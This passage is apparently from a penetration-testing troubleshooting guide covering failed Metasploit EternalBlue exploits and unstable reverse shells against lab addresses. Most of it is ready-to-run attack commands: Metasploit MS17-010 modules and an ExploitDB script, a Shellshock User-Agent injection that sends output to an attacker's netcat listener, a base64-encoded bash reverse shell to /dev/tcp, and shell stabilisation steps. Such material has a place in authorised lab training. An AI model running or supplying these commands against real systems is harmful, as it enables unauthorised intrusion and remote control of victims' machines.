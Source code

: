 ### Exploitation Failures

**Issue**: Metasploit exploits failing despite vulnerable targets
```bash
# Symptoms:
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.10.14.5:4444 
[-] 10.10.10.15:445 - An unknown error occurred
[*] Exploit completed, but no session was created.

# Solutions:
# 1. Verify target vulnerability first
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.15
run

# 2. Check target architecture and select appropriate payload
nmap -O 10.10.10.15  # OS detection
set payload windows/x64/meterpreter/reverse_tcp  # Match architecture

# 3. Try alternative exploit variants
use exploit/windows/smb/ms17_010_psexec
use auxiliary/admin/smb/ms17_010_command

# 4. Manual exploitation attempt
python3 /usr/share/exploitdb/exploits/windows/remote/42315.py 10.10.10.15
```

### Shell Connection Issues

**Issue**: Reverse shells immediately disconnecting
```bash
# Symptoms:
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 45234
# Connection closes immediately

# Solutions:
# 1. Test basic connectivity first
nc -nlvp 4444 &
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'sleep 10; echo test | nc 10.10.14.5 4444'" http://10.10.10.5/cgi-bin/test.cgi

# 2. Use encoded payloads
echo 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1' | base64
# Then use base64 output in payload

# 3. Try alternative ports (80, 443, 53)
nc -nlvp 80

# 4. Stabilize shell immediately
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```
